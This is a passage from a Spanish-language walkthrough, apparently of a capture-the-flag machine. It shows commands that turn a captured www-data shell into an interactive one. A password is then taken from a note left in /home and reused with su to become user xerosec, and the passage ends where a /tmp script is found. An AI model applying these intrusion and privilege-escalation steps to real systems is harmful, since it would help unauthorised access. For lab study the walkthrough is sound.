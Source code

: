 Estamos dentro !

***

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Nos encontramos como el usuario **www-data**.

En el directorio **/home**, vemos que hay 3 usuarios, y un archivo **.txt**. Le echamos un vistazo:

```shell
cat NotaParaMario.txt 
----------------------------------------------------
Hola Mario!
Acuerdate de revisar el script conjunto que estamos desarrollando parar la comunidad! 
Lo he movido al directorio tmp

megustaelfallout

Borra esta nota cuando la leas.
```

Podemos probar la cadena **"megustaelfallout"** como contraseña para los distintos usuarios. Y tenemos éxito con uno de ellos. El usuario **xerosec** -> **xerosec:megustaelfallout**:

```shell
su xerosec
```

Conseguimos migrar al usuario **xerosec**. La nota además informaba de un script en el directorio **/tmp**. Encontramos un script en **python**:

```shell
ls -l script.py 
-------------------------------------------------
-rwxr--r-- 1 mario mario 195 Apr 30 14:06 script.py
```
